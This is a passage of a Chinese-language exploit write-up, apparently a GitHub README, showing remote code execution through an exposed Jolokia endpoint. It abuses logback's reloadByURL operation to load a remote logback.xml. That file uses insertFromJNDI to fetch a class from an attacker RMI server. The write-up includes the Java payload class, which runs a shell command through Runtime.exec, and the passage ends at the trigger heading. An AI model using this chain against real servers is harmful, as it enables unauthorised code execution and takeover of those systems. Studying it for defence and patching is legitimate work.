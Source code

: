 http://10.20.24.191:8090/jolokia/list 
![](./reloadByURL.png)

中 reloadByURL 可以加载远程 url xml 文件


```
"ch.qos.logback.classic": {
"Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator": {
"op": {
"reloadByURL": {
"args": [
{
"name": "p1",
"type": "java.net.URL",
"desc": ""
}
],
"ret": "void",
"desc": "Operation exposed for management"
}
```

## 0x03 http 服务存放logback.xml,ExportObject.class


logback.xml 文件内容

![](./logback.png)

```
<configuration>
  <insertFromJNDI env-entry-name="rmi://10.20.24.191:1099/Exploit" as="appName" />
</configuration>
```

ExportObject.java

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class ExportObject {
   public ExportObject() throws Exception {
      Process var1 = Runtime.getRuntime().exec("touch /tmp/jas502n");
      InputStream var2 = var1.getInputStream();
      BufferedReader var3 = new BufferedReader(new InputStreamReader(var2));

      String var4;
      while((var4 = var3.readLine()) != null) {
         System.out.println(var4);
      }

      var1.waitFor();
      var2.close();
      var3.close();
      var1.destroy();
   }

   public static void main(String[] var0) throws Exception {
   }
}

```
## 0x04 RCE触发